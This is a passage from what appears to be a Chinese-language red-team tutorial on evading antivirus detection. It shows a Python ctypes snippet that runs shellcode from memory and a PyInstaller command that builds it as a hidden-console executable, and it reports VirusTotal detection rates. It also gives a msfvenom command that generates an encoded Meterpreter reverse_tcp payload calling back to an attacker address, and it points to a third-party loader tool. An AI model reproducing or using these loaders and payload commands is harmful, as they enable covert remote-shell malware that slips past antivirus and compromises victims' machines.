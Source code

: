 ```
	memory_with_shell = create_string_buffer(shellcode, len(shellcode))
	shell = cast(memory_with_shell,CFUNCTYPE(c_void_p))
	shell()

```

使用pyinstaller编译：
```
python pyinstaller.py --onefile --noconsole encryptedShellcodeWrapper_aes.py
```

编译执行，可上线，virustotal.com上查杀率19/71，和上面的xor加密一样。

![0baab705f65ffd44ca0200c8132ae1ac](images/2020.04-bypass-05/17.png)

# 3 python加载器

## 3.1 方法1：HEX加密(VT免杀率3/56)

这是使用了k8的方法：`https://www.cnblogs.com/k8gege/p/11223393.html`
k8的工具scrun不仅提供了加载python代码，还能加载C#。

先用msfvenom生成一个c格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f c -o shell.c
```

把shellcode转成hex，我这就也用k8飞刀了。
